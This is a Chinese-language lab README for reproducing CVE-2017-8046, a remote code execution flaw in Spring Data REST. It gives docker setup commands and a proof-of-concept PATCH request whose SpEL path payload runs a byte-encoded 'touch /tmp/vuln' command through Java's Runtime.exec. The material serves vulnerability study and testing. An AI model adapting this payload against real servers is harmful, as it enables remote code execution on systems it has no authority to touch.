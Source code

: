 ## Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)

### 漏洞信息

 * [CVE-2017-8046: RCE in PATCH requests in Spring Data REST](https://pivotal.io/security/cve-2017-8046)
 * [这个Spring高危漏洞，你修补了吗？--  其河@美团点评技术团队](https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_spring_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8080:8080 medicean/vulapps:s_spring_1
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

#### PoC

1. 访问 `http://127.0.0.1:8080/`，测试服务是否启动成功

 > 第一次启动时会下载 mongodb，网速慢的可能要多等一会儿

 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-1.png)

2. 利用 POST 请求添加一个数据

	```
	POST /persons HTTP/1.1
	Host: 127.0.0.1:8080
	Content-Type: application/json
	Cache-Control: no-cache
	
	{"firstName": "VulApps", "lastName": "VulApps"}
	```
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-2.png)

3. 执行 PoC

  执行命令为: `/usr/bin/touch /tmp/vuln`，注意 Content-Type 值为 `application/json-patch+json`

```
PATCH /persons/1 HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json-patch+json
Cache-Control: no-cache
Content-Length: 228
	
[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{47,117,115,114,47,98,105,110,47,116,111,117,99,104,32,47,116,109,112,47,118,117,108,110}))/lastName", "value": "vulapps-demo" }]
```
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-3.png)

4. 进入容器，发现成功创建文件

 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-4.png)

### 参考链接

* [这个Spring高危漏洞，你修补了吗？--  其河@美团点评技术团队](https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA)
